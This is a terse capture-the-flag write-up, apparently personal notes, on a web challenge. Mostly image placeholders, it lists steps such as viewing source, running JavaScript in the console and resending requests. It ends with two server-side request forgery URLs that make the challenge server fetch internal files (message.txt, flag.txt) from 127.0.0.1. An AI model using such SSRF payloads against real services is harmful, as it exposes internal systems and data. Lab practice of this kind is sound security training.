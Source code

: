 ![[Pasted image 20231219131017.png]]

Static jquery

![[Pasted image 20231219131037.png]]

Copy paste the java into console

![[Pasted image 20231219133419.png]]
![[Pasted image 20231219133431.png]]

Edit and resend

![[Pasted image 20231219133548.png]]

```
http://83.136.254.153:58487/G3tTh4tF1l34M3?l33t=http://127.0.0.1:8080/message.txt
```

![[Pasted image 20231219135145.png]]

```
http://83.136.254.153:58487/G3tTh4tF1l34M3?l33t=http://127.0.0.1:8080/flag.txt
```

![[Pasted image 20231219135255.png]]